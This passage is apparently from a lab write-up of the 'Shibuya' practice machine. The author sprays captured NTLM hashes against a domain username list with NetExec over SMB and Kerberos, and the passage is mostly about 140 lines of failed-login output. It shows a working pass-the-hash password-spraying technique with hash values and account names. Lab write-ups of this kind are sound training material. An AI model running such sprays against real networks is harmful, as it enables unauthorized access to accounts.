while its cracking we can spray the other NTLM hash we captured from the dump with the usersname we exported earlier from the nxc 
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ nxc smb 10.129.234.42 -u username.txt -H '8dcb5ed323d1d09b9653452027e8c013' -k
```

the administrator NT hash doesn't seems to hit any , trying with Operators hash
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ nxc smb 10.129.234.42 -u username.txt -H '5d8c3d1a20bd63f60f469f6763ca0d50' -k
SMB         10.129.234.42   445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\_admin:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Guest:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_CLIENT_REVOKED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\krbtgt:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_CLIENT_REVOKED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\svc_autojoin:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Leon.Warren:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Graeme.Kerr:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Joshua.North:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Shaun.Burton:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Gillian.Douglas:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Kelly.Davies:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Conor.Fletcher:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Karl.Brown:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Tracey.Wood:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Mohamed.Brooks:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Wendy.Stevenson:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Gerald.Allen:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Leigh.Harrison:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Brian.Elliott:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Ashleigh.Hancock:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Kevin.Green:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Mathew.Richardson:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Stanley.Johnson:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Sophie.Smith:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Thomas.Wilson:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Jacqueline.Taylor:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Georgia.Smith:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Georgia.Kelly:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Alan.Green:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Mohammad.Todd:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Graham.Francis:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Elaine.Roberts:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Ross.Allen:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Grace.Humphries:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Roy.Shepherd:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Emma.Noble:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Ryan.Harris:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Suzanne.Webb:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Edward.Smith:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Ellie.Chapman:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Bradley.Evans:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Grace.King:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Eric.Barnes:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Tracey.Holmes:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Joan.White:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Leslie.Osborne:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Frederick.Smith:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Joseph.Rowe:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Melanie.Brown:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Jodie.Jenkins:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Bethany.Watson:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Cameron.Begum:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Jenna.Abbott:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Karl.Smith:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Arthur.Walker:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Sheila.Roberts:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Tom.Barnes:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Stuart.French:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\William.Johnson:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\David.Poole:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Charlene.Walsh:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Jessica.Gordon:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Francesca.Day:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\William.Brown:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Sylvia.Doyle:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\William.Thomas:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Craig.Owen:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Leon.Daly:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Jacob.Preston:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Lynn.Pearson:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Antony.Howell:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Mary.Grant:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Shirley.Matthews:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Louis.Bond:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Norman.Clayton:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Rhys.Moore:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Lynn.Gregory:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Abdul.Mason:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Diana.Rowe:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Olivia.Houghton:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Katy.Webster:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Judith.Black:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Henry.Gallagher:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Ryan.Horton:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Dylan.Booth:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Nathan.Matthews:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Georgia.Carter:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Derek.Wade:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\David.Cole:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Lynn.Harrison:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Rachel.Flynn:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Jade.Smith:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Hannah.Taylor:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Carole.Barrett:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Brenda.Peacock:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Robin.Stevens:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Victoria.Jones:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Victor.Clarke:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Joel.Bailey:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Stanley.Lowe:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Billy.Williams:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Lorraine.Barber:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Nicole.Walsh:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Mohamed.Daniels:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Joseph.Woods:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Elliott.Hill:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Marie.Campbell:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Cheryl.Patel:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Samuel.Curtis:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Dennis.Little:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Rachael.Taylor:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Helen.Walton:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Richard.Stokes:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Hilary.Collins:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Christopher.Brookes:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Max.Day:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Marcus.Stevenson:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Leon.Murray:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Carly.Franklin:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Luke.Nash:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Terry.Saunders:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Callum.Walker:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Roger.Mills:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Elliott.Page:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Barry.Green:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Jill.Clarke:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Vanessa.Harris:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Ross.Smith:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Jane.Stewart:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Gemma.Simpson:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Donald.Holmes:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Tracy.Ferguson:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Damien.Dixon:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Geraldine.Herbert:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Sarah.Warner:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Bryan.Watts:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Hayley.Morgan:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Glenn.Gough:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Sam.Stone:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Susan.Baker:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Eileen.Anderson:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Vincent.Bryan:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Deborah.Edwards:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Rosemary.Edwards:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Dominic.Matthews:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Sylvia.Farrell:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Amanda.Wall:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Timothy.Freeman:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Bethan.Davies:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Alan.Pearce:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Stanley.Smart:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Susan.Butler:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Hannah.Thompson:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Janice.Connolly:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Rhys.Marsh:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Phillip.Campbell:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Norman.Evans:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Terry.Sharp:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Rosie.Williams:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Dominic.Jones:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Dorothy.Turner:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Oliver.Rees:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Lewis.Robson:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
